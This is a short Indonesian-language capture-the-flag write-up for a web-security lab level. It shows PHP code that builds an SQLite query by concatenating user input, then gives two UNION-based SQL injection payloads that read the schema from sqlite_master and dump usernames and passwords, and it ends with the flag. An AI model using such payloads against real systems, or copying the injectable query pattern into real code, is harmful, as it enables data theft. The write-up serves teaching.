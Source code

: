 Kita bahkan diberikan clue keras dengan nama variable "Injection"

```
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

Database yang digunakan sepertinya SQLite , mari kita coba beberapa payload SQLite

Enumerasi tabel dan kolom

```
-1 UNION SELECT 2,group_concat(sql) from sqlite_master-- -
```

![Image](img/level1/2.PNG)

Mengeluarkan data username dan password

```
-1 UNION SELECT group_concat(username),group_concat(password) from users-- -
```

![Image](img/level1/3.PNG)

Flag : WEBSEC{Simple_SQLite_Injection}

